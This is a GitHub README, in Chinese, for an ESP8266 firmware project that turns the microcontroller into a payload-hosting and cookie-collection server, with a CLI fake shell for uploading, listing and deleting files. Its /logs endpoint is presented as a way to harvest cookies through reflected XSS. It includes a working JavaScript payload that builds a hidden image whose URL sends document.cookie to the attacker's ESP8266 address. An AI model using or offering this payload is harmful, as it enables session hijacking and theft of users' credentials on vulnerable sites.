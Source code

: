 # ESP8266-remote-payloads

### esp8266闪存文件应用

[详见太极创客](www.taichi-maker.com/homepage/esp8266-nodemcu-iot/iot-c/spiffs/upload-files/)

### 使用的esp8266模块：

其他esp8266模块或开发板应该也行，只要有flash和WebServer库即可。

![esp8266.jpg](./img/esp8266.jpg)

### /index.html页面：

![/index.html](./img/index.html.png)

### /upload.html页面：

上传的文件将被存储在“/payloads/”根目录下。

![/upload.html](./img/upload.html.png)

### /delete.html页面：

只需要输入文件名如“logs”即可删除“/payloads/”+文件名如“/payloads/logs”文件，文件名不能包含“..”！

![/delete.html](./img/delete.html.png)

### /list操作：

列出/payloads/根目录下的所有文件夹和文件。

![/list](./img/list.png)

### /logs操作：

参数（GET或POST）将会被追加在/payloads/logs文件中，用于反射型XSS漏洞获取Cookie等。

xss_reflect.js举例：

```js
//通过指定的名称'img'创建img元素
var img = document.createElement('img');
img.width = 0;
img.height = 0;

//将img元素的src属性指向脚本文件xss_reflect.php
//将cookie信息的字符串作为URI组件进行编码，然后用ck参数传递
img.src = 'http://192.168.1.103/logs?cookie='+encodeURIComponent(document.cookie);
//将192.168.1.103换成你esp8266服务器的地址
```

# ESP8266-remote-payloads-cli

分为两个文件：

- remote_payloads_cli.ino
- remote_payloads_cli.py

其中remote_payloads_cli.ino在上传到esp8266之前，需要配置好用户名、密码和wifi基本信息（当然，你也可以修改端口等信息，只要你清楚自己在做什么就行），如下

![config.png](./img/config.png)

上传完成之后即可用remote_payload_cli.py连接（可被重命名，记得赋予可执行权限）

```
usage: remote_payloads_cli.py [-h][-r <url:post>][-u <username>][-p <password>]
description:
    remotely connect to your esp8266 standby with a fake shell.
Command         Description                     Example
help            show helpful information        help
ls              list dir                        ls /payloads
up              upload local file to esp8266    up ~/Desktop/something.js /payloads/other.js
down            download file from esp8266      down /payloads/something.js ~/Desktop/other.js
cat             show content of a file          cat /payloads/logs
rm              remove file or dir              (file)rm /payloads/logs
                                                (dir)rm /payloads/
mv              move file or dir                (file)mv /payloads/logs /logs
                                                (dir)mv /upload/ /payloads/new/
wget            send a HTTP/HTTPS request and\  wget http://www.baidu.com/robots.txt [-o /tmp/baidu_robots.txt]
                save the payload to file\
                default path is '/'+fileName
clear           clear shell                     clear
exit            log off and exit                exit
```

示例：

![example.png](./img/example.png)

也可以如下方式连接（password都是没有回显的）：

![example-1.png](./img/example-1.png)

需要注意的几点：

- 该cli连接方式其实是HTTP连接（命令大部分是POST请求），但不用担心密码泄漏问题（数据和cookie会被中间人劫持，毕竟不是HTTPS协议），其中加密逻辑请各位大佬看看，如若不妥，还请大佬能够指出不当之处！
- 同一个esp8266只允许一个客户端接入（你也可以修改，但比较麻烦），即每次只有一个cookie有效，使用`exit`命令‘正常’结束会话后，cookie当即失效
- url格式为"http://[ip|domain]:port"，末尾**没有**"/"！若端口为80端口，则可忽略
- `rm /filePath/fileName`将删除filePath下fileName文件，而`rm /filePath/`将删除**整个filePath目录及目录下所有文件**！`rm /`则相当于清空内存
- 向`http://[ip|domain]:port/logs`发送的请求，将会被esp8266记录下来，默认追加在`/payloads/logs`文件，这可用于反射型XSS漏洞获取cookie
- 访问`http://[ip|domain]:port/list`，将会列出非隐藏目录下所有文件链接





